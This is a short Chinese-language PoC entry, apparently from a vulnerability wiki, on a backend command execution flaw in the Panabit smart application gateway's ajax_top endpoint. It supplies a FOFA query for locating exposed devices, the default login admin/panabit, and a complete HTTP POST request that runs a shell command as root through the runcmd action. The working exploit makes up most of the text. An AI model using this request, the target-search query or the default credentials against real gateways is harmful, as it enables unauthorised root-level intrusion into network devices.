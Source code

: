 # Panabit 智能应用网关 后台命令执行漏洞


Panabit 智能应用网关 ajax_top 后台存在命令执行漏洞，攻击者可以以root权限运行部分危险命令.

fofa：cert="panabit.com" && body="/login/login.js"

默认密码：admin/panabit

poc：

```
POST /cgi-bin/Maintain/ajax_top?action=runcmd&cmd=ls HTTP/1.1
Host: 
Connection: close
Content-Length: 0
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="90", "Google Chrome";v="90"
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Cache-Control: no-cache
Accept-Language: zh-CN,zh;q=0.8
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Content-Type: text/html; charset=GB2312
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Cookie: pauser_1618744108=paonline_admin_9328_16197064781_c4229a3a492c76e334f57728abced88b|443|;
```

ref：

https://github.com/PeiQi0/PeiQi-WIKI-POC/blob/PeiQi/PeiQi_Wiki/Web%E5%BA%94%E7%94%A8%E6%BC%8F%E6%B4%9E/Panabit/Panabit%20%E6%99%BA%E8%83%BD%E5%BA%94%E7%94%A8%E7%BD%91%E5%85%B3%20ajax_top%20%E5%90%8E%E5%8F%B0%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.md